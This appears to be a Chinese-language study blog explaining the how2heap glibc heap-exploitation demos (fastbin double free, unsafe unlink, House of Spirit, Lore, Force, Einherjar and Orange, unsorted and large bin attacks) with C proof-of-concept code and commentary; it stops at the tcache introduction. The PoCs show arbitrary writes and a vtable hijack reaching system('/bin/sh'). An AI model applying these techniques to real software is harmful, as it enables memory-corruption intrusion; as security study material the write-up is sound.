






### 前言

对https://github.com/shellphish/how2heap上的例子进行讲解，记录调试过程，方便日后快速回忆利用技巧。

### first_fit.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
	char* a = malloc(512);
	char* b = malloc(256);
	char* c;	
	strcpy(a, "this is A!");	
	free(a);
	c = malloc(500);
	strcpy(c, "this is C!");
}
```
该例子验证了glibc使用first-fit分配方式，能在free bin里面找到适合大小就先分配了，找不到再去重新开辟空间。上述代码a释放后又被c分配了，所以最开始的堆块最终保存的是"this is C!"

### fastbin_dup.c

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	free(a);
	free(b);
	free(a);

	fprintf(stderr, "1st malloc(8): %p\n", malloc(8));
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "3rd malloc(8): %p\n", malloc(8));
}

```
该例子验证了fastbin 上的double free，glibc在fastbin上只检查了要进来堆块的大小以及是否和第一个堆块地址一样。

malloc a, b, c后：



double free后：


1st malloc(8) 和 3rd malloc(8)分配到的都是之前的chunk a.

### fastbin_dup_into_stack.c

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
	unsigned long long stack_var;

	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	free(a);
	free(b);
	free(a);

	unsigned long long *d = malloc(8);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));

	stack_var = 0x20;

	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```
double free 后重新获取chunk a 和 chunk b，并修改chunk a的fd到栈地址上。stack_var变量保存在栈上，给它赋值0x20是为了绕过fastbin中大小检查。

double free后（malloc a， b后堆的情况没有改变，因为fastbin形成一个循环且malloc操作不会修改堆块的fd）：


修改chunk a的fd为栈地址后：


### fastbin_dup_consolidate.c

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  
  free(p1);
  void* p3 = malloc(0x400);
  
  free(p1);
  
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```
分配large bin时发现堆块太小无法分配，会触发malloc_consolidate()，该函数会将太小无法分配的堆块移到small bin或unsorted bin中进行合并看是否合成一个符合大小的堆块，不能再去开辟一个新空间。这间接绕过了fastbin的堆块检查，达到double free 的效果。

p3 = malloc(0x400)后：


第二次free(p1)后：


最后两次malloc(0x40)会得到同一个堆块。

### unsafe_unlink.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

uint64_t *chunk0_ptr; //位于bss区，攻击后可对bss区其他变量进行改写

int main()
{
	
	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1

	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    //绕过 P->fd->bk = P 判断
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
    //绕过 P->bk->fd = P 判断

	uint64_t *chunk1_hdr = chunk1_ptr - header_size; 
    //获取chunk1 堆块的头部
	chunk1_hdr[0] = malloc_size;
    //伪造chunk1的pre_size，绕过 chunksize(P) == next_chunk(P)->prev_size 的判断
    chunk1_hdr[1] &= ~1;
    //修改previous_in_use位，让伪造的堆块处于free状态
	free(chunk1_ptr);
    //进行unlink 操作

	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;
	chunk0_ptr[0] = 0x4141414142424242LL;
	fprintf(stderr, "New Value: %s\n",victim_string);
}
```
在chunk0中伪造堆块，在chunk1中修改presize和size位，绕过判断：


调试信息如下：


unlink过程如下：

```
unlink(P, BK, FD){
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```


unlink后chunk0_ptr填充的内容是FD，即伪造的chunk0的fd值0x602058，chunk0_ptr[3]即0x602070（chunk0_ptr变量在bss中的地址）


chunk0_ptr[3] = (uint64_t) victim_string 将chunk0_ptr修改成victim_string数组的地址（在栈上），最后修改栈上的数据("Hello!~")为0x4141414142424242. 也可以去修改bss上的其他变量，包括函数指针等。

### house_of_spirit.c

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
	malloc(1);//防止和top chunk 合并
	unsigned long long *a;
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));
	fake_chunks[1] = 0x40; 
    // 伪造堆块的size字段不能超过fastbin的最大值，且IS_MMAPPED和NON_MAIN_ARENA位要为0
	fake_chunks[9] = 0x1234; 
    //下一个堆块的大小，要大于2*SIZE_ZE小于system_mem,否则会报invalid next size的错误
	a = &fake_chunks[2];
	free(a);

	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```


```
• PREV_INUSE (bit 0) : 上一块 chunk 是否不是 freed
• IS_MMAPPED (bit 1) : 该 chunk 是不是由 mmap 所分配的
• NON_MAIN_ARENA (bit 2)：是否不属于 main arena
```

通过在栈上(fake_chunk)上伪造一个堆块，并释放到fastbin，最后重新malloc出来，得到位于栈上的堆块，可以对栈上的数据进行改写。调试信息如下：


> 例子：l-ctf2016的pwn200和湖湘杯的note

### poison_null_byte.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>


int main()
{
	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;
	void *barrier;

	a = (uint8_t*) malloc(0x30);
	int real_a_size = malloc_usable_size(a);
	b = (uint8_t*) malloc(0x160);

	c = (uint8_t*) malloc(0xf0);

	barrier =  malloc(0x100);
	*(size_t*)(b+0xf0) = 0x100;
      //绕过chunksize(P) != prev_size (next_chunk(P)) 检查

	free(b);
	
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"

	b1 = malloc(0x80);

	b2 = malloc(0x30);
    //memset(b2,'B',0x30);
	free(b1);
	free(c);
	
	d = malloc(0x260);
	
	memset(d,'D',0x260);//将b2中的内容覆盖
}

```
shrink the chunk demo 代码，在libc 2.19版本下能够利用成功，libc 2.23加入了对size的校验，引入的补丁：

https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30


> In newer versions of glibc we will need to have our updated size inside b itself to pass the check 'chunksize(P) != prev_size (next_chunk(P))'

所以由于null覆盖，当前chunk为free状态，在大于2.19版本中需要在next chunk中伪造pre_size。

过程如下：


溢出一个字节后的调试信息：


free(c)后：


### house_of_lore.c

```
/*
Advanced exploitation of the House of Lore - Malloc Maleficarum.
This PoC take care also of the glibc hardening of smallbin corruption.
[ ... ]
else
    {
      bck = victim->bk;
    if (__glibc_unlikely (bck->fd != victim)){
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
       set_inuse_bit_at_offset (victim, nb);
       bin->bk = bck;
       bck->fd = bin;
       [ ... ]
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){

  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};
  intptr_t *victim = malloc(100);
  intptr_t *victim_chunk = victim-2;

  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk; // victim->bk->fd == vimctim_chunk
  //绕过 __glibc_unlikely (bck->fd != victim) 检查

  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;// 伪造的small_bin1的bk 指向 伪造的small_bin2
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;//small_bin2->bk-fd == small_bin1， 绕过检查
  
  void *p5 = malloc(1000); // 防止释放victim和top chunk 合并

  free((void*)victim);//放入unsorted bin中

  void *p2 = malloc(1200); //将victim 从unsorted bin 中取下放入small bin 中。

  //------------VULNERABILITY-----------

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack
  //伪造victim的bk 为stack_buffer_1
  
  //------------------------------------
  void *p3 = malloc(0x90); //分配到victim，
  char *p4 = malloc(0x90); //分配到stack_buffer_1,分配到栈上的地址
  memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
  //绕过canary，用jackpot函数地址覆盖返回地址
}
```
House of Lore 利用的前提：

（1）需要控制 Small Bin Chunk 的 bk 指针

（2）控制指定位置 chunk （要分配的目标chunk）的 fd 指针

free((void*)victim)，victim 会被放入到 unsort bin 中去，然后下一次分配的大小如果比它大，那么将从 top chunk 上分配相应大小，而该 chunk 会被取下link到相应的 bin 中。如果比它小(相等则直接返回)，则从该 chunk 上切除相应大小，并返回相应 chunk，剩下的成为 last reminder chunk ,还是存在 unsorted bin 中。

伪造后的small bin链表如下：

victim ⇄ stack_buffer_1 ⇄ stack_buffer_2


分配完p3, p4，覆盖返回地址后：


### overlapping_chunks.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

int main(int argc , char* argv[]){
	intptr_t *A,*B,*C,*D;

	A = malloc(0x40 - 8);
	B = malloc(0x170 - 8);
	C = malloc(0x40 - 8);
	free(B);

	int evil_chunk_size = 0x1b1;
	int evil_region_size = 0x1b0 - 8;

	*(B-1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2
    // 溢出一个字节，修改chunk B的size，将其扩展
	D = malloc(evil_region_size);
	memset(D, 'D', evil_region_size);
}
```

利用过程如下：


### overlapping_chunks_2.c

```
/*
This technique is taken from
 https://loccs.sjtu.edu.cn/wiki/lib/exe/fetch.php?media=gossip:overview:ptmalloc_camera.pdf.

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main(){
  
  intptr_t *p1,*p2,*p3,*p4,*p5,*p6;
  unsigned int real_size_p1,real_size_p2,real_size_p3,real_size_p4,real_size_p5,real_size_p6;
  int prev_in_use = 0x1;

  p1 = malloc(1000);
  p2 = malloc(1000);
  p3 = malloc(1000);
  p4 = malloc(1000);
  p5 = malloc(1000);

  real_size_p1 = malloc_usable_size(p1);
  real_size_p2 = malloc_usable_size(p2);
  real_size_p3 = malloc_usable_size(p3);
  real_size_p4 = malloc_usable_size(p4);
  real_size_p5 = malloc_usable_size(p5);


  memset(p1,'A',real_size_p1);
  memset(p2,'B',real_size_p2);
  memset(p3,'C',real_size_p3);
  memset(p4,'D',real_size_p4);
  memset(p5,'E',real_size_p5);
  

  free(p4);

  *(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; //<--- BUG HERE 
  // 修改chunk p2的size，将p3包含进来

  free(p2); //将包含p3的堆块释放
  
  p6 = malloc(2000); // 重新获取到p3，此时就能对p3的内容进行修改
  real_size_p6 = malloc_usable_size(p6);

  memset(p6,'F',1500);  
}

```
和overlapping_chunks.c类似，overlapping_chunks.c溢出一个字节覆盖的是freed chunk的size，overlapping_chunks_2.c溢出一个字节覆盖的是use chunk的size，之后再释放该堆块，后面的步骤和overlapping_chunks.c一样。

溢出覆盖一个字节前调试信息：



溢出覆盖一个字节后调试信息：


### house_of_force.c

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main(int argc , char* argv[])
{
	
	intptr_t *p1 = malloc(256);
	int real_size = malloc_usable_size(p1);

	//----- VULNERABILITY ----
	intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size - sizeof(long));

	*(intptr_t *)((char *)ptr_top + sizeof(long)) = -1;
    //篡改top chunk的size成一个很大的数
    //绕过(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
    //保证不会调用mmap来分配空间
	
	unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*4 - (unsigned long)ptr_top;

	/*
	 * The evil_size is calulcated as (nb is the number of bytes requested + space for metadata):
	 * new_top = old_top + nb //整数溢出
	 * nb = new_top - old_top
	 * req + 2sizeof(long) = new_top - old_top
	 * req = new_top - old_top - 2sizeof(long)
	 * req = dest - 2sizeof(long) - old_top - 2sizeof(long)
	 * req = dest - old_top - 4*sizeof(long)
	 */

	void *new_ptr = malloc(evil_size); //获得新的top chunk 地址

	void* ctr_chunk = malloc(100); //此时top chunk地址在bss上，再分配就得到bss的堆块
	strcpy(ctr_chunk, "YEAH!!!"); //覆盖bss_var的内容

```
限制条件：

（1）可以以溢出等方式控制到top chunk的size部分

（2）可以自由地控制堆分配尺寸的大小

溢出覆盖top chunk size后，分配计算出的偏移大小后的调试信息：


### unsorted_bin_into_stack.c

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main() {
  intptr_t stack_buffer[4] = {0};
  intptr_t* victim = malloc(0x100);
  intptr_t* p1 = malloc(0x100);

  free(victim);

  stack_buffer[1] = 0x100 + 0x10;
  stack_buffer[3] = (intptr_t)stack_buffer;

  //------------VULNERABILITY-----------

  victim[-1] = 32; 
  // 绕过2*SIZE_SZ (> 16 on x64) && < av->system_mem 的判断
  victim[1] = (intptr_t)stack_buffer; // victim->bk is pointing to stack
  //伪造victim 的bk指针，指向栈上的地址   

  //------------------------------------
  char *A = malloc(0x100); //分配得到栈上的chunk
}
```

unsorted bin伪造后的情况为：victim->stack->null，此时再申请一个0x100字节的堆，先到unsorted bin中寻找，找到victim 由于victim->size被修改为了0x20，不满足大小要求，遍历victim->bk所指向的堆，找到栈中伪造的chunk进行分配。

伪造后堆情况：


### unsorted_bin_attack.c

```
#include <stdio.h>
#include <stdlib.h>

int main(){
	
	unsigned long stack_var=0;
	
	unsigned long *p=malloc(400);
	
	malloc(500);

	free(p);
	
	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2); //通过堆溢出对chunk p的bk进行改写，改写到任意位置

	//------------------------------------

	malloc(400);//next chunk的fd被改写，即stack_var内容被写入一个堆指针
}
```
unsorted bin 是一个双向链表，在分配时会通过unlink操作将chunk从链表中摘除，可以通过控制unsorted bin的bk指针，向任意位置写入一个指针。

```
/* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

堆溢出伪造victim的bk，调试信息如下：


malloc(400)后，bck->fd被改写，即此时stack_var内容为:0x00007ffff7dd1b78


可用于泄露libc基址。

### large_bin_attack.c

```
/*
    This technique is taken from
    https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/
    [...]
              else
              {
                  //将victim chunk设置为堆头
                  victim->fd_nextsize = fwd;
                  victim->bk_nextsize = fwd->bk_nextsize;
                  //由于fwd->bk_nextsize可控，因此victim->bk_nextsize可控
                  fwd->bk_nextsize = victim;
                  victim->bk_nextsize->fd_nextsize = victim;
                  //victim->bk_nextsize可控，因此实现了往任意地址写victim的能力
              }
              bck = fwd->bk;//由于fwd->bk可控，因此bck可控
    [...]
    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;//bck可控，因此实现了往任意地址写victim的能力
    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.
    [...]
 */

#include<stdio.h>
#include<stdlib.h>
 
int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    unsigned long *p1 = malloc(0x320);
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    malloc(0x20);
 
    free(p1);
    free(p2);
    malloc(0x90); //将p2从unsorted bin中取下放入large bin中
    free(p3);
    
    //------------VULNERABILITY-----------

    p2[-1] = 0x3f1;//修改size，使得和p3的大小不同，才会在p3加入large bin时设置堆头
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);//伪造chunk 的 bk
    p2[3] = (unsigned long)(&stack_var2 - 4);//伪造chunk 的 bk_nextsize

    //------------------------------------

    malloc(0x90);//将p3 插入large bin中

    return 0;
}
```

在largebin插入的过程中，伪造largebin的bk_nextsize以及bk，实现任意地址写堆地址。

该攻击方式可实现两次往任意的地址写堆地址的能力，设任意地址为evil_addr，问题出现在当前的largebin插入为堆头的过程，在此过程中假设我们可控largebin中的bk_nextsize与bk。

（1）控制fwd->bk_nextsize指向evil_addr-0x20。执行完victim->bk_nextsize = fwd->bk_nextsize后，victim->bk_nextsize也为evil_addr-0x20，接着执行victim->bk_nextsize->fd_nextsize = victim即实现了往evil_addr-0x20->fd_nextsize写victim，即往evil_addr写victim地址。

关键两行代码如下：

```
victim->bk_nextsize = fwd->bk_nextsize; //由于fwd->bk_nextsize可控，因此victim->bk_nextsize可控
...
victim->bk_nextsize->fd_nextsize = victim; //victim->bk_nextsize可控，因此实现了往任意地址写victim的能力
```

（2）控制fwd->bk指向evil_addr-0x10，执行完bck = fwd->bk后，bck为evil_addr-0x10，接着执行bck->fd = victim即往evil_addr-0x10->fd写victim，即往evil_addr写victim地址。

关键两行代码如下：

```
bck = fwd->bk; //由于fwd->bk可控，因此bck可控
...
bck->fd = victim; //bck可控，因此实现了往任意地址写victim的能力
```
> 参考链接：https://www.anquanke.com/post/id/183877

p3插入large bin之前的堆情况：


p3插入large bin之后的堆情况：


从图中可以看到victim的bk和bk_nextsize分别被改写成fwd的bk和bk_nextsize，之后对：

```
（1）victim->bk_nextsize->fd_nextsize = victim;

（2）bck->fd = victim;
```
的操作使得目标地址（stack_var1和stack_var2）被写入堆地址（victim）。


### house_of_einherjar.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

/*
   Credit to st4g3r for publishing this technique
   The House of Einherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc()
   This technique may result in a more powerful primitive than the Poison Null Byte, but it has the additional requirement of a heap leak. 
*/

int main()
{
	
	uint8_t* a;
	uint8_t* b;
	uint8_t* d;
	
	a = (uint8_t*) malloc(0x38);
    int real_a_size = malloc_usable_size(a);
    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    // 绕过unlink检查
    // p->fd = p
    // p->bk = p 
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
	b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    a[real_a_size] = 0; //溢出一个字节，覆盖chunk b的size中的PREV_INUSE位
    
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk); //计算与目标地址的偏移
   
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;// 伪造chunk b的prev_size位

    fake_chunk[1] = fake_size;// 伪造fake_chunk的size位

    // 绕过 __builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)

    free(b);// 进行consolidate backward

    d = malloc(0x200);//分配到栈上的chunk
}
```
通过该技术可以强制malloc一个任意地址的chunk。其主要在于滥用 free 中的后向合并操作（合并低地址的chunk），从而使得尽可能避免碎片化。

此外，需要注意的是，在一些特殊大小的堆块中，off by one不仅可以修改下一个堆块的 prev_size，还可以修改下一个堆块的PREV_INUSE比特位。

free 函数中的后向合并核心操作如下：

```

        /* consolidate backward */
        if (!prev_inuse(p)) {
            prevsize = prev_size(p);
            size += prevsize;
            p = chunk_at_offset(p, -((long) prevsize));
            unlink(av, p, bck, fwd);
        }
    
```


1. 需要有溢出漏洞可以写物理相邻的高地址的 prev_size 与 PREV_INUSE 部分。
2. 我们需要计算目的 chunk 与 p1 地址之间的差，所以需要泄漏地址。
3. 我们需要在目的 chunk 附近构造相应的 fake chunk，从而绕过 unlink 的检测。

consolidate backward前，伪造的堆情况：


consolidate backward后堆的情况：


free后chunk b 和fake_chunk进行合并，成为新的top chunk，top chunk的地址在栈上，所以再分配时就会得到在栈上的chunk。

### house_of_orange.c

#### 0x00 demo代码

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    p1 = malloc(0x400-16);//申请一块内存

    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;//修改top_chunk的size

    p2 = malloc(0x1000);//申请超过
       
    io_list_all = top[2] + 0x9a8;//获取io_list_all的值，相对偏移是固定的

    top[3] = io_list_all - 0x10;//部署unsorted bin攻击

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;
   
    top[24] = 1;

    top[21] = 2;
    top[22] = 3;

   
    top[20] = (size_t) &top[18];

    top[15] = (size_t) &winner;
    top[27] = (size_t ) &top[12];
    malloc(10);

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

#### 0x01 修改top_chunk的size

> top = (size_t *) ( (char *) p1 + 0x400 - 16);  
> top[1] = 0xc01;//修改top_chunk的size


但是不能随意修改，sysmalloc中对该值进行了验证：
```
assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));

  /* Precondition: not enough current space to satisfy nb request */
  assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
```
所以要满足：

- 大于MINSIZE(0X10)
- 小于所需的大小 + MINSIZE
- prev inuse位设置为1
- old_top + oldsize的值是页对齐的

#### 0x02 申请一块大内存，触发sysmalloc中的_int_free

>  p2 = malloc(0x1000);


如果要触发sysmalloc中_int_free，那么本次申请的堆大小也不能超过mp_.mmap_threshold，因为代码中也会根据请求值来做出不同的处理。

```
 if (av == NULL
      || ((unsigned long) (nb) >= (unsigned long) (mp_.mmap_threshold)
      && (mp_.n_mmaps < mp_.n_mmaps_max)))　
```
触发_int_free后，top_chunk就被释放到unsortbin中了

#### 0x03 进行unsorted bin攻击

攻击之前的内存布局：


**攻击过程**

因为top_chunk卸下来后变成unsorted_bin,只能通过main_arena+88的地址来覆盖_IO_list_all(通过将_IO_list_all-0x10的地址放置在bk中——unsorted bin攻击)



所以此时_IO_FILE为main_arena+88的地址，由于main_arena不能完全被控制，该_IO_FILE对象的数据基本不能用，要靠chain字段来转移到下一个_IO_FILE


chain字段的偏移为0x68，所以要将(main_arena+88)+0x68=(main_arena+192)的位置覆盖成top的地址，这样就会把top当成下一个_IO_FILE，而top又是我们可控的地方，在top里伪造虚表，并覆盖伪造虚表里的overflow函数地址为system地址。
如何将main_arena+192的地址覆盖成top的地址？
将chunk的大小改成0x61



main_arena的结构：


可以推算出main_arena+192的位置为bin[10]的位置，但是chunk大小改为0x61为啥会分配在bin[10]呢？

```
   /* place chunk in bin */

          if (in_smallbin_range (size))//size为0x61
            {
              victim_index = smallbin_index (size);//victim_index为6
              bck = bin_at (av, victim_index);//bck=&av->bins[(6-1)*2]-0x10=&av->bins[10]-0x10
              fwd = bck->fd;//fwd=&av->bins[10]
            }

        ...
mark_bin (av, victim_index);
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;//old_top被加入av->bins[10]的链表中了。
bck->fd = victim;
```

```
#define smallbin_index(sz) \
  ((SMALLBIN_WIDTH == 16 ? (((unsigned) (sz)) >> 4) : (((unsigned) (sz)) >> 3))\
   + SMALLBIN_CORRECTION)  //0x61 >> 4 = 6
```

```
#define bin_at(m, i) \
  (mbinptr) (((char *) &((m)->bins[((i) - 1) * 2]))			      \
             - offsetof (struct malloc_chunk, fd))
```
#### 0x04 申请内存，触发异常

从触发异常到执行攻击代码的路径如下：


```
int
_IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;

...

  last_stamp = _IO_list_all_stamp;
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)//将_IO_OVERFLOW覆盖成system，fp的地址上填充"/bin/sh"
	result = EOF;

            ...
      if (last_stamp != _IO_list_all_stamp)
	{
	  /* Something was added to the list.  Start all over again.  */
	  fp = (_IO_FILE *) _IO_list_all;
	  last_stamp = _IO_list_all_stamp;
	}
      else
	fp = fp->_chain; //单链表链接，通过这个，即使无法控制main_arena中的数据，但是通过chain链，将控制转移到我们到我们能控制的地方。
    }

    ...
  return result;
}
```
攻击后的内存布局：


为了执行_IO_OVERFLOW,需要满足之前的判断：
- fp->_mode <= 0不成立，所以fp->_mode > 0
- _IO_vtable_offset (fp) == 0
- fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base





最后，我们将vtable的值改写成我们构造的vtable起始地址，虚表的结构如下：


伪造的情况如下：


之后调用_IO_OVERFLOW就会调用填充的system函数。

### tcache_dup.c

tcache 全名 thread local caching，它为每个线程创建一个缓存（cache），从而实现无锁的分配算法，有不错的性能提升。libc-2.26 正式提供了该机制，并默认开启。

需要注意的是：

